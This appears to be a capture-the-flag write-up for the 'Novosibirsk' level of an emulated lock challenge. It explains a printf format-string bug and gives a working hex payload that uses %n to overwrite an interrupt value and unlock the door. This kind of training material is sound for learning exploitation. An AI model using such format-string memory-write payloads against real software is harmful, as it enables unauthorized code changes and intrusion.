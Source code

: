 # Level 13: Novosibirsk

![Novosibirsk](img/13_1.PNG)

## Observations

* Printf again, except this time the first argument is the user input (a simple `%x` returns `7825`)
* No main ret.
* Call to `conditional_unlock_door` (HSM-2)

## Format String Again

The obvious idea here is to change the 7E interrupt to a 7F interrupt. Let's try the to exploit the Format String to do that. 

![interrupt](img/13_2.PNG)

So let's build our input:
* the address we want to write on (here `c844` (little endian)). 
* Then enough padding to print 7f (127) bytes including the 4 bytes of the address we're writing on.
* The format %n

`c8446161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161256e`

This works.